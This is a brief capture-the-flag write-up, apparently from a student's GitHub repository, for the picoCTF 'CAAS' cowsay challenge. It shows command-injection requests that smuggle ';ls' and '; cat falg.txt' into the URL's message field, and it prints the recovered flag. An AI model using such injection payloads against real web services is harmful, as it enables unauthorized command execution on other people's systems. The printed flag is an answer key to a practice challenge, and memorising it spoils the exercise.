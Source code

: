 # CAAS
## GOAL
Make a request to the following URL to cowsay your message:

`https://caas.mars.picoctf.net/cowsay/{message}`

### WRITE UP:-

The command `$ curl` is used as a command line tool that enables data transfer over various network protocols.

**Cowsay** is a program that generates ASCII art pictures of a cow with a message.

Thus we type `$ curl "https://caas.mars.picoctf.net/cowsay/hi_vishwa;ls" `

We find the following files inside

![image](https://github.com/vishwatejD/picoCTF/assets/141154035/8d3fcd2e-ddea-4654-aff5-9f3e5afcdcea)

We require the flag file thus we run cat command for the falg.txt file

`$ curl "https://caas.mars.picoctf.net/cowsay/{message}; cat falg.txt"`

We get the flag as 
**picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}**

RESOURCES USED:- https://www.geeksforgeeks.org/curl-command-in-linux-with-examples/

